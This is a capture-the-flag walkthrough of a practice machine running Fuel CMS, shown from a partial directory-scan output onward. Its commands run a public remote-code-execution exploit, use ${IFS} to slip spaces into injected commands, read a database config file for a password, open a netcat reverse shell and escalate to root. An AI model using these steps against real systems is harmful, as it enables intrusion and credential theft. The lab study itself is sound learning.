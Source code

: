 >/server-status        (Status: 403) [Size: 300]                                  
>                                                                                 
>===============================================================
>2021/12/12 15:40:05 Finished
>===============================================================

- I stopped the machine here and started again at another time, so the ip addresses will be different but the process is still the same

3. In robots.txt we find /fuel, so we check it out and find that there's an admin page. We check the docs in the documentation (which is the landing page) and find the default credentials are admin.
4. I wasted a lot of time trying to get past the file uploading so I could upload a reverse shell so I took a peak at some writeups and saw that they literally just searched for the vuln. I did so too and found [this](https://github.com/noraj/fuelcms-rce) great program on github that literally executes commands for you. For some reason, however, I was getting errors when trying to pass arguments - which I believe was due to spaces. For example, if I did `ruby exploit.rb http://127.0.0.1:8099/index.php/ 'ls'` (the ip address is not relevant) it worked perfectly, but if I used `ls -al` instead it was giving me errors. I got past this by using [IFS](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces), which has a default value of a space. So all I did was `ruby exploit.rb http://127.0.0.1:8099/index.php/ 'ls${IFS}-al'` and it worked perfectly
5. For here I found that the flax.txt in the user directory was in `/home/www-data/flag.txt`, so I did `ruby exploit.rb http://10.10.76.238/index.php 'cat${IFS}/home/www-data/flag.txt'` and got `6470e394cbf6dab6a91682cc8585059b`
6. I tried finding the last flag by using sudo but I wasn't getting any output. I finally succumbed and took a look at the writeup and saw that the password was located at `fuel/application/config/database.php`. I used `ruby exploit.rb http://10.10.76.238/index.php 'cat${IFS}fuel/application/config/database.php${IFS}|${IFS}grep${IFS}password'` and got
>['password'] The password used to connect to the database
>'password' => 'mememe',
    - I just realized that the fuelcms docs actually tell us that the password should be stored in the database.php file. Probably should have read it
7. For the privilege escalation I realized that there's a much better [program](https://github.com/AssassinUKG/fuleCMS) that much more user friendly and lets you reverse shell immediately. This made my life so much easier. Now I start up the program, set up a netcat listener at a port that's not being used `nc -nvlp 4444`, use `shell_me` on the program's prompt, and get a shell instantly. However, since we don't have tty yet we won't be able to use sudo.
8. To get the tty we simply use python `python -c 'import pty; pty.spawn("/bin/sh")'`, and now we should be able to use sudo.
9. Elevate to root with `su root`, enter the password we found earlier, and then `ls /root` and `cat /root/root.txt` to find `b9bbcb33e11b80be759c4e844862482d`
